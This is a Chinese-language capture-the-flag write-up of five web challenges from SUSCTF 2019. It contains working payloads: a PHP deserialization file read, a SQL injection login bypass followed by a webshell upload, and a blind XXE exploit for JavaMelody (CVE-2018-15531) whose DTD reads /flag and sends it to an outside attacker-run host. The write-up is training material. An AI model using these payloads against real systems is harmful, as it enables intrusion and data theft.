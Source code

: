 ```yaml
---
title: SUSCTF 2nd Web Write Up
tags:
  - Writeup
  - CTF
date: 2019-04-25 21:07:00
---
```

> 文章首发于安恒网络空间安全讲武堂

![](/assets/images/move/1555149964624-1914027a-dcc9-45db-a993-9e0d1cc3f5d4.png)

> “东南大学永信杯”江苏大学生网络安全精英邀请赛 2019/4/13 9:00-17:00

<!--more-->

## Web1 judge 100pt

just do it!

http://211.65.197.117:15000

![](/assets/images/move/1555146966474-e1afa7e4-8818-4261-afb4-654c1a7cff44.png)

Payload:

```python
import re
import time
import requests

url = 'http://211.65.197.117:15000/'
r = requests.session()
for i in range(20):
    text = r.get(url).text
    calc = str(re.findall("\n<div>(.*?)=", text))[2:-2].replace(' ', '')
    res = str(re.findall("=(.*?)</div>", text))[2:-2]
    res = int(res)
    ans = eval(calc)
    if ans == res:
        data = {'answer': "true"}
    elif ans != res:
        data = {'answer': "false"}
    time.sleep(1)
    last = r.post(url, data)
    print(last.text)
    '''SUSCTF{python_1s_th3_be3t_l4ngu4ge}'''
```



## Web2 phpStorm 100pt



好的编辑器开发真的很快！！http://sus.njnet6.edu.cn:11002



![](/assets/images/move/1555147748007-7b79a75d-8d69-4978-8af2-fe6664d0db8d.png)

由`phpStorm`猜测`.idea`文件泄露，下载`workspace.xml`分析文件路径，访问`Thi5_tru3_qu3sti0n.php`（依照引导使用BurpSuite`抓包修改Head头X-Forward-For为127.0.0.1、User-Agent为SUS进行绕过）获取到php代码如下：

```php
<?php
/**
 * Created by PhpStorm.
 * User: y4ngyy
 * Date: 19-3-19
 * Time: 下午2:40
 */
class foo {
    public $filename;
    function printContent() {
        $content = file_get_contents($this->filename);
        echo $content;
    }
}
if ($_SERVER['HTTP_X_FORWARDED_FOR'] != '127.0.0.1') {
    echo 'Only Localhost can see';
    die();
} else if ($_SERVER['HTTP_USER_AGENT'] != 'SUS') {
    echo 'Browser is not SUS<br>';
    echo 'Please use SUS browser!';
    die();
}
show_source(__FILE__);


$a = null;
if (isset($_POST['foo'])) {
    $a = unserialize($_POST['foo']);
    if (!is_object($a)||get_class($a) != 'foo') {
        $a = new foo();
        $a->filename = "text.txt";
    }

} else {
    $a = new foo();
    $a->filename = "text.txt";
}
$a->printContent();
Hello, CTFer!
?>
```

简单的PHP反序列化，Payload:

```php
<?php
class foo {
    public $filename;
    function printContent() {
        $content = file_get_contents($this->filename);
        echo $content;
    }
}

$a = new foo();
$a->filename = "flag.php";
echo serialize($a);

//O:3:"foo":1:{s:8:"filename";s:8:"flag.php";}
//escape()->O%3A3%3A%22foo%22%3A1%3A%7Bs%3A8%3A%22filename%22%3Bs%3A8%3A%22flag.php%22%3B%7D
```

提交`foo`后查看网页源代码，发现如下内容：

```php
//view-source:http://sus.njnet6.edu.cn:11002/Thi5_tru3_qu3sti0n.php
<?php
/**
 * Created by PhpStorm.
 * User: y4ngyy
 * Date: 19-3-19
 * Time: 下午2:38
 */
//SUSCTF{PHPSTORM_1s_pR3tty_useFul};?>
```





## Web3  infoGate 300pt



信息门户？？http://sus.njnet6.edu.cn:11001

![](/assets/images/move/1555147145783-2a358a3d-2f8e-4fe4-a752-b9428c823781.png)

`username=admin' or '1'='1`&`password=1`即可以`admin`的身份登录，进入`edit.php`写入shell~

![](/assets/images/move/1555134022789-e19c0ec6-81da-4e84-bf69-592e845825bc.png)

访问`/Uploads/webshell.php`得到：SUSCTf{infoGate_Pr3tty_easy_T0_GETSHELL}.





## Web4  Melody 300pt



所以这题为什么叫这个名字？http://211.65.197.117:23333

JavaMelody是一个用来对Java应用进行监控的组件。通过该组件，用户可以对内存、CPU、用户session甚至SQL请求等进行监控，并且该组件提供了一个可视化界面给用户使用。

![](/assets/images/move/1555148411996-fca71af7-6437-4f5a-a9d5-1dd6836fdf7f.png)

访问`/monitoring`可以验证是否加载成功插件：

![](/assets/images/move/1555207057361-45fc0e3f-52c6-4f91-ac58-f871f007f839.png)

系 javaMelody XXE(CVE-2018-15531) ，参见复现分析[JavaMelody 组件 XXE 漏洞解析](https://paper.seebug.org/705/). Payload:



```xml
//http://211.65.197.117:23333/
POST / HTTP/1.1
Host: 211.65.197.117:23333
Content-type: text/xml
SOAPAction: aaaaa
Content-Length: 154

<?xml version="1.0" encoding="UTF-8" standalone="no" ?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://your_vps_adress:port/ev.dtd">
%remote;
]>
</root>
```

这里直接响应是没有回显的，为了完成盲打(Blind XXE)读取文件的功能，服务器部署文件`ev.dtd`：

```xml
//ev.dtd
<!ENTITY % payload SYSTEM	"file:///flag">
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://your_vps_adress:port/%payload;'>">
%int;
%trick;
```

捕获记录：

```bash
211.65.197.117 - - [13/Apr/2019:15:53:02 +0800] "GET /SUSCTF{M3l0dy_CV3_XX3} HTTP/1.1" 404 162 "-" "Java/1.8.0_201"
```



## Web5 重定向之旅 300pt



使用谷歌内核浏览器食用效果更佳。 http://sus.njnet6.edu.cn:65533

![](/assets/images/move/1555148854529-a5f3af9b-3433-42a5-80d0-9b7ecc1b62e7.png)

- Part1 查看源代码获取注释代码

![](/assets/images/move/1555206886011-a8035308-6511-4abd-8c2f-2b4c7a99950c.png)

```php
//url:http://sus.njnet6.edu.cn:65533/index-ein.html
//hint：源代码的秘密
<meta http-equiv="refresh" content="6;url=index-dos.php">
<!--<?php $part1="3oI";?>-->
```

- Part2 在HTTP请求报文头里捕获

![](/assets/images/move/1555206797179-1742ddfc-732b-4d91-a3e8-e4cb3f8a7c96.png)

网页很快重定向跳转,这里我们可以用BurpSuite抓包查看响应包内容。

```php
//http://sus.njnet6.edu.cn:65533/index-dos.php
//hint: HEAD 你摸得到头脑吗？
$part2: rEdirEct
```

- Part3 解AAencode JS加密

![](/assets/images/move/1555206896629-41e6ff33-4142-4d27-8198-fb01425e019e.png)

```php
//http://sus.njnet6.edu.cn:65533/index-trois.aspx
//http://sus.njnet6.edu.cn:65533/index-ne.js
//JS AAencode 解密如下
leave=function ()
{console.log("$part3:4fun");
location.href='flag.php';
location.href='no_flag.html';}
```
- 访问flag.php

```php
//http://sus.njnet6.edu.cn:65533/flag.php
SUSCTF{__}
<?php
error_reporting(0);
echo "SUSCTF{".$part1."_".$part2."_".$part3."}";
echo "<br>";
show_source(__FILE__);
?>
```

拼接flag得到SUSCTF{3oI_rEdirEct_4fun}.

